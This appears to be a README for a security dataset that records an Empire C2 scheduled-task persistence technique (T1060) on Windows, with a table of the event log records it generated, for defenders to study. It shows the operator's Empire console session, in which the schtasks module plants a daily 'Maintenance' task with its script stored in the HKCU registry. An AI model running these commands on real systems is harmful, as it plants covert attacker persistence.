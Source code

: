 
# Empire Userland Schedule Tasks

An adversary can create a registry key and scheduled task to mainting persistence in the environment

## Technique(s) ID

T1060

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_userland_schtasks.tar.gz](./empire_userland_schtasks.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19024742

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             139 |
| Security                                 | Token Right Adjusted Events                            |             198 |
| Security                                 | Filtering Platform Connection                          |              88 |
| Security                                 | Group Membership                                       |               7 |
| Security                                 | Logoff                                                 |               7 |
| Security                                 | Logon                                                  |               7 |
| Security                                 | Special Logon                                          |               6 |
| Security                                 | File Share                                             |               3 |
| Security                                 | Process Termination                                    |               3 |
| Security                                 | Detailed File Share                                    |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Sensitive Privilege Use                                |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             161 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              69 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              33 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |              24 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |              23 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |               8 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             116 |

## Empire Activity

```
usemodule persistence/userland/schtasks
```

```
(Empire: powershell/persistence/userland/schtasks) > set Listener https
(Empire: powershell/persistence/userland/schtasks) > set TaskName Maintenance
(Empire: powershell/persistence/userland/schtasks) > info   

              Name: Invoke-Schtasks
            Module: powershell/persistence/userland/schtasks
        NeedsAdmin: False
         OpsecSafe: False
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @mattifestation
  @harmj0y

Description:
  Persist a stager (or script) using schtasks. This has a
  moderate detection/removal rating.

Comments:
  https://github.com/mattifestation/PowerSploit/blob/master/Pe
  rsistence/Persistence.psm1

Options:

  Name       Required    Value                     Description
  ----       --------    -------                   -----------
  DailyTime  False       09:00                     Daily time to trigger the script        
                                                   (HH:mm).                                
  ProxyCreds False       default                   Proxy credentials                       
                                                   ([domain\]username:password) to use for 
                                                   request (default, none, or other).      
  ExtFile    False                                 Use an external file for the payload    
                                                   instead of a stager.                    
  Cleanup    False                                 Switch. Cleanup the trigger and any     
                                                   script from specified location.         
  TaskName   True        Maintenance               Name to use for the schtask.            
  IdleTime   False                                 User idle time (in minutes) to trigger  
                                                   script.                                 
  ADSPath    False                                 Alternate-data-stream location to store 
                                                   the script code.                        
  Agent      True        FD6A3MGY                  Agent to run module on.                 
  Listener   False       https                     Listener to use.                        
  RegPath    False       HKCU:\Software\Microsoft  Registry location to store the script   
                         \Windows\CurrentVersion\  code. Last element is the key name.     
                         debug                   
  Proxy      False       default                   Proxy to use for request (default, none,
                                                   or other).                              
  UserAgent  False       default                   User-agent string to use for the staging
                                                   request (default, none, or other).      

(Empire: powershell/persistence/userland/schtasks) > execute
[>] Module is not opsec safe, run? [y/N] y
[*] Tasked FD6A3MGY to run TASK_CMD_WAIT
[*] Agent FD6A3MGY tasked with task ID 11
[*] Tasked agent FD6A3MGY to run module powershell/persistence/userland/schtasks
(Empire: powershell/persistence/userland/schtasks) > SUCCESS: The scheduled task "Maintenance" has successfully been created.
Schtasks persistence established using listener https stored in HKCU:\Software\Microsoft\Windows\CurrentVersion\debug with Maintenance daily trigger at 09:00.

(Empire: powershell/persistence/userland/schtasks) >
```